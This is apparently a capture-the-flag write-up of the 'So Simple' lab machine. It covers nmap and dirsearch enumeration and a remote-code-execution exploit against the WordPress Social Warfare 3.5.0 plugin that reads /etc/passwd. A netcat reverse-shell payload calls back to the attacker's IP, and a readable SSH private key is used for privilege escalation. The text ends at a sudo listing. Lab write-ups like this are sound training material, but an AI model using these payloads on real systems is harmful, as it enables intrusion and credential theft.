 First start enumeration with nmap

```
# Nmap 7.93 scan initiated Fri Mar 10 19:18:26 2023 as: nmap -sC -sV -oN normal.tcp -p 22,80 -Pn 192.168.63.78
Nmap scan report for 192.168.63.78
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b5543efafd03d0e63207af4ac416a45 (RSA)
|   256 53f5231be9aa8f41e218c6055007d8d4 (ECDSA)
|_  256 55b77b7e0bf54d1bdfc35da1d768a96b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 10 19:18:41 2023 -- 1 IP address (1 host up) scanned in 15.40 seconds
```

![image](https://user-images.githubusercontent.com/87468669/224396578-038df6c4-f994-44ef-9faa-abbe0d196784.png)

noticed a web server running on port `80`, opening it on a browser directed us to an homepage with an image `sosimple`. let's fuzz for hidden dir.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/Sosimple]
└─$ dirsearch -u http://192.168.63.78/ -w /usr/share/wordlists/dirb/common.txt -e php,txt,bak,tar,js,zip

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, bak, tar, js, zip | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/n16hth4wk/.dirsearch/reports/192.168.63.78/-_23-03-10_19-34-54.txt

Error Log: /home/n16hth4wk/.dirsearch/logs/errors-23-03-10_19-34-54.log

Target: http://192.168.63.78/

[19:34:55] Starting: 
[19:35:21] 200 -  495B  - /index.html                                       
[19:35:45] 403 -  278B  - /server-status                                    
[19:35:57] 301 -  318B  - /wordpress  ->  http://192.168.63.78/wordpress/   
                                                                             
Task Completed
```
cool we got a `wordpress` directory, let's check it out.

![image](https://user-images.githubusercontent.com/87468669/224399057-b354d6b8-a408-4ed2-9c15-8c4adad62568.png)

navigating to the `/wordpress` directory we can see it is running a wordpress cms. let's check the source page

![image](https://user-images.githubusercontent.com/87468669/224400563-da92235a-3644-41d1-a0ab-2aa93b451ba4.png)

viewing the source page we can see it is running `Social Warfare v3.5.0` plugin, let's search for an exploit to this plugin. 

```
1. Create payload file and host it on a location accessible by a targeted website. Payload content : "<pre>system('cat /etc/passwd')</pre>"

2. Visit http://192.168.63.78/wordpress/wp-admin/admin-post.php?rce=id&swp_debug=load_options&swp_url=http://192.168.49.63/payload.txt"

3. Content of /etc/passwd will be returned 
```

![image](https://user-images.githubusercontent.com/87468669/224411864-0e1e5fab-2ec4-4bdd-889d-97beffa6d163.png)

cool we got RCE, let's replace our `payload.txt` file with a reverse shell.

reverse shell payload: 

```
<pre>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.63 8080 >/tmp/f')</pre>
```

![image](https://user-images.githubusercontent.com/87468669/224412307-958ee1e1-a2d4-4d97-8052-b57ab158258e.png)

ncat listener ready.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/Sosimple]
└─$ ncat -lnvp 8080 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 192.168.63.78.
Ncat: Connection from 192.168.63.78:52888.
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Boom we got a reverse shell.


## Privilege escalation

```
www-data@so-simple:/home/max$ cd .ssh/                                                                                                                            [2/2]
www-data@so-simple:/home/max/.ssh$ ls -al                                                                                                                              
total 20                                                                                                                                                               
drwxr-xr-x 2 max  max  4096 Jul 14  2020 .
drwxr-xr-x 7 max  max  4096 Aug 22  2020 ..
-rw-r--r-- 1 max  max   568 Jul 14  2020 authorized_keys
-rwxr-xr-x 1 root root 2602 Jul 14  2020 id_rsa
-rw-r--r-- 1 root root  568 Jul 14  2020 id_rsa.pub
www-data@so-simple:/home/max/.ssh$ ssh -i id_rsa max@localhost 
Could not create directory '/var/www/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:qo4/EbrJueKB3ta+XB6PT2uNDjKfSgixhQqawjkTPas.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar 10 20:26:52 UTC 2023

  System load:  0.0               Processes:                177
  Usage of /:   53.4% of 8.79GB   Users logged in:          1
  Memory usage: 27%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for ens160:  192.168.63.78


47 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Mar 10 20:24:02 2023 from 127.0.0.1
max@so-simple:~$ 

```
found an `id_rsa` key file in user max `.ssh` directory. so ssh using the `id_rsa` key file and boom we ot shell as user max. let's escalate privs further.

```
max@so-simple:~$ sudo -l
Matching Defaults entries for max on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User max may run the following commands on so-simple:
    (steven) NOPASSWD: /usr/sbin/service
max@so-simple:~$
```
checking sudo privs for user `max`, we can see that user `max` is allowed to run sudo on `/usr/sbin/service` as user `steven` .


